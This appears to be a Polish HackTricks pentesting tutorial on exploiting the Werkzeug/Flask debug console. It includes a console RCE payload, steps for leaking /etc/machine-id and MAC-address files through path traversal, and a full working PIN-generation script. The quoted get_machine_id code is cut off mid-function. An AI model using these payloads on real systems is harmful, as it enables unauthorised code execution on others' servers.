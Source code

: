 # Werkzeug / Flask Debug

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Natychmiastowo dostępna konfiguracja do oceny podatności i testów penetracyjnych**. Przeprowadź pełny pentest z dowolnego miejsca z 20+ narzędziami i funkcjami, które obejmują od rekonesansu po raportowanie. Nie zastępujemy pentesterów - rozwijamy niestandardowe narzędzia, moduły wykrywania i eksploatacji, aby dać im z powrotem trochę czasu na głębsze badania, przełamywanie zabezpieczeń i zabawę.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

Jeśli debugowanie jest aktywne, możesz spróbować uzyskać dostęp do `/console` i zdobyć RCE.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

Istnieje również kilka exploitów w internecie, takich jak [ten](https://github.com/its-arun/Werkzeug-Debug-RCE) lub jeden w metasploit.

## Pin Protected - Path Traversal

W niektórych przypadkach punkt końcowy **`/console`** będzie chroniony pinem. Jeśli masz **vulnerability** do przechodzenia przez pliki, możesz wyciekować wszystkie niezbędne informacje do wygenerowania tego pinu.

### Werkzeug Console PIN Exploit

Wymuś stronę błędu debugowania w aplikacji, aby zobaczyć to:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
W przypadku próby uzyskania dostępu do interfejsu debugowania Werkzeug pojawia się komunikat dotyczący scenariusza "console locked", wskazujący na konieczność podania PIN-u w celu odblokowania konsoli. Sugeruje się wykorzystanie PIN-u konsoli poprzez analizę algorytmu generowania PIN-ów w pliku inicjalizacyjnym debugowania Werkzeug (`__init__.py`). Mechanizm generowania PIN-ów można zbadać w [**repozytorium kodu źródłowego Werkzeug**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), chociaż zaleca się pozyskanie rzeczywistego kodu serwera za pomocą luki w przejściu plików z powodu potencjalnych rozbieżności wersji.

Aby wykorzystać PIN konsoli, potrzebne są dwa zestawy zmiennych: `probably_public_bits` i `private_bits`:

#### **`probably_public_bits`**

* **`username`**: Odnosi się do użytkownika, który zainicjował sesję Flask.
* **`modname`**: Zazwyczaj oznaczany jako `flask.app`.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Zwykle rozwiązuje się do **Flask**.
* **`getattr(mod, '__file__', None)`**: Reprezentuje pełną ścieżkę do `app.py` w katalogu Flask (np. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Jeśli `app.py` nie jest odpowiedni, **spróbuj `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Pobiera adres MAC bieżącej maszyny, a `str(uuid.getnode())` przekształca go w format dziesiętny.
* Aby **określić adres MAC serwera**, należy zidentyfikować aktywny interfejs sieciowy używany przez aplikację (np. `ens3`). W przypadku niepewności, **wycieknij `/proc/net/arp`**, aby znaleźć identyfikator urządzenia, a następnie **wyodrębnij adres MAC** z **`/sys/class/net/<device id>/address`**.
*   Konwersję adresu MAC w formacie szesnastkowym na dziesiętny można wykonać, jak pokazano poniżej:

```python
# Przykładowy adres MAC: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: Łączy dane z `/etc/machine-id` lub `/proc/sys/kernel/random/boot_id` z pierwszą linią `/proc/self/cgroup` po ostatnim ukośniku (`/`).

<details>

<summary>Code for `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Po zebraniu wszystkich niezbędnych danych, skrypt exploitacyjny może zostać uruchomiony w celu wygenerowania PIN-u konsoli Werkzeug:

Po zebraniu wszystkich niezbędnych danych, skrypt exploitacyjny może zostać uruchomiony w celu wygenerowania PIN-u konsoli Werkzeug. Skrypt wykorzystuje zebrane `probably_public_bits` i `private_bits` do stworzenia hasha, który następnie przechodzi dalsze przetwarzanie w celu uzyskania ostatecznego PIN-u. Poniżej znajduje się kod Pythona do wykonania tego procesu:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Ten skrypt generuje PIN, haszując połączone bity, dodając konkretne sole (`cookiesalt` i `pinsalt`) oraz formatując wynik. Ważne jest, aby rzeczywiste wartości dla `probably_public_bits` i `private_bits` były dokładnie uzyskane z systemu docelowego, aby zapewnić, że wygenerowany PIN odpowiada temu, który oczekuje konsola Werkzeug.

{% hint style="success" %}
Jeśli używasz **starej wersji** Werkzeug, spróbuj zmienić **algorytm haszowania na md5** zamiast sha1.
{% endhint %}

## Znaki Unicode w Werkzeug

Jak zaobserwowano w [**tym zgłoszeniu**](https://github.com/pallets/werkzeug/issues/2833), Werkzeug nie zamyka żądania z znakami Unicode w nagłówkach. Jak wyjaśniono w [**tym opracowaniu**](https://mizu.re/post/twisty-python), może to spowodować podatność na CL.0 Request Smuggling.

Dzieje się tak, ponieważ w Werkzeug możliwe jest wysyłanie niektórych **znaków Unicode**, co spowoduje **awarię** serwera. Jednak jeśli połączenie HTTP zostało utworzone z nagłówkiem **`Connection: keep-alive`**, ciało żądania nie zostanie odczytane, a połączenie pozostanie otwarte, więc **ciało** żądania będzie traktowane jako **następne żądanie HTTP**.

## Zautomatyzowane Wykorzystanie

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## Odniesienia

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Natychmiast dostępne ustawienie do oceny podatności i testów penetracyjnych**. Przeprowadź pełny pentest z dowolnego miejsca z ponad 20 narzędziami i funkcjami, które obejmują od rekonesansu po raportowanie. Nie zastępujemy pentesterów - rozwijamy niestandardowe narzędzia, moduły wykrywania i wykorzystania, aby dać im z powrotem trochę czasu na głębsze badania, przełamywanie zabezpieczeń i zabawę.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>
{% endhint %}
